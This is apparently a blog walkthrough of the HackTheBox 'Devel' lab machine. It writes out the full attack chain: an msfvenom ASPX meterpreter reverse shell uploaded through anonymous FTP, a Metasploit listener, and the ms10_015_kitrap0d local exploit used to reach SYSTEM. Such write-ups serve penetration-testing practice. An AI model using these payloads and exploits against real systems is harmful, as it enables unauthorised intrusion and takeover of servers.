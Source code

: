 ```yaml
---
title: 'HachTheBox - Devel'
date: '2021-10-05 14:00:00 +0000'
categories: [HTB, easy]
tags: [hackthebox, easy]     # TAG names should always be lowercase
comments: true
mermaid: true
image:
  src: /assets/img/devel/devel.png
  width: 1000   # in pixels
  height: 400   # in pixels
  alt: Legacy box logo icon
---
```



Firstly we begin with our NMAP scan. From our scan results we see that ports 21 (ftp) & 80 (http) are open. My first obvservation is that anonymous login is permitted on the FTP server.

![nmap-scan-results](/assets/img/devel/devel-nmap.png)

Before attempting to connect to FTP, I'd like to take a look at what the web server on port 80 is serving up so in a browser I navigate to "http://10.10.10.5".

 We see a default webpage for IIS Microsoft webserver. To save time I'll skip the step of running Dirbuster, which I would normally do at this point to see if I could bruteforce any hidden directories.

![iis-webpage](/assets/img/devel/iis7.png)

As the FTP server allows for anonymous login, I test it to see if we can get access. The anonymous login is successfull. We'll be using it to upload a malicious file. The malicious file will be a reverse shell that we'll be connecting to via Metasploit.

![iis-webpage](/assets/img/devel/ftp-in.png)

The snippet we need to generate our malicious file can be found here "https://mytrickstuff.com/hacks-and-tricks/msfvenom-cheat-sheet-one-page-one-code/". As we're dealing with a Microsoft webserver we need to locate the payload for the file type of ASP. ```msfvenom -p windows/meterpreter/reverse_tcp LHOST= LPORT= -f asp > shell.asp```. 

![iis-webpage](/assets/img/devel/cheatsheet.png)

Enter the snippet for ```msfvenom``` to build the file. Add your ```tun0``` IP to ```LHOST```. I changed the file extension to ASPX, but either ASP or ASPX will work.

Make sure the file extension in the command and the extension of the file your putting it in are the same. This will take a few seconds to generate. ```msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.10.16.4 LPORT=4444 -f aspx > ex.aspx```.

![iis-webpage](/assets/img/devel/venom.png)

We fire up Metasploit using ```msfconsole``` and enter ```use exploit/multi/handler``` to begin opening up a listener. This is what our malicious file will connect back to once we have uploaded it to the FTP server and triggered it via a browser.

![iis-webpage](/assets/img/devel/use-multi-handler.png)

We need to reconfigure the options. This requires setting the payload to the same as we used for the malicious reverse shell file we generated with ```msfvenom```. We also need to set the ```LHOST``` to the same IP as we used, which is the IP of our ```tun0``` network interface. We enter ```run``` to start the listener.

![iis-webpage](/assets/img/devel/set-options-run.png)

Now we need to upload our malicious file. We connect to the FTP server with ```ftp 10.10.10.5```

![iis-webpage](/assets/img/devel/ftp-in.png)

And upload our file to the server with ```put ex.aspx```. You can use the ```ls``` command to list out the files on the FTP server to confirm the ```ex.apsx``` has uploaded.

![iis-webpage](/assets/img/devel/put-ex.png)

To execute the file we navigate to the url of the web server and append the file name ```http://10.10.10.5/ex.aspx```. This triggers the reverse shell. We return back to the listener session and see wee have a ```meterpreter``` session. However after typing ```getuid``` we see we have low level privilges. We need to escalate our privileges.

![iis-webpage](/assets/img/devel/run-getuid.png)

For the moment we background the session.

![iis-webpage](/assets/img/devel/bg-session.png)

In Metasploit we ```search suggester``` for a post module that will escalate our privileges. It returns one post exploit module.

![iis-webpage](/assets/img/devel/suggester-results.png)

We ```use post/multi/recon/local_exploit_suggester```. Then set the ```options```. We only need to specify the session that we want, that's the session of the reverse shell we have with the FTP server. You can find the session number from when we ran ```background```.

![iis-webpage](/assets/img/devel/use-set-run.png)

The suggester returns some possible exploits. In this instance we want to use the ```kitrap0d``` exploit. We ```use exploit/windows/local/ms10_015_kitrap0d```

![iis-webpage](/assets/img/devel/sggest-results.png)

We look at the options.

![iis-webpage](/assets/img/devel/kitra-options.png)

We ```set session 2```, ```set LHOST 10.10.16.3```, and ```set LPORT 4445```. Be sure to use your ```tun0``` IP, as the exploit will have defaulted to your ```eth0``` address. And as we're already using port 4445, we want to use another port.

![iis-webpage](/assets/img/devel/kitra-set.png)

We ```run``` the exploit, type ```getuid```, and see we now have ```AUTHORITY/SYSTEM```. This system has been owned!

![iis-webpage](/assets/img/devel/kitra-run.png)

Locate the flags and navigate to the files to fully own the system :)

![iis-webpage](/assets/img/devel/locate-flags.png)








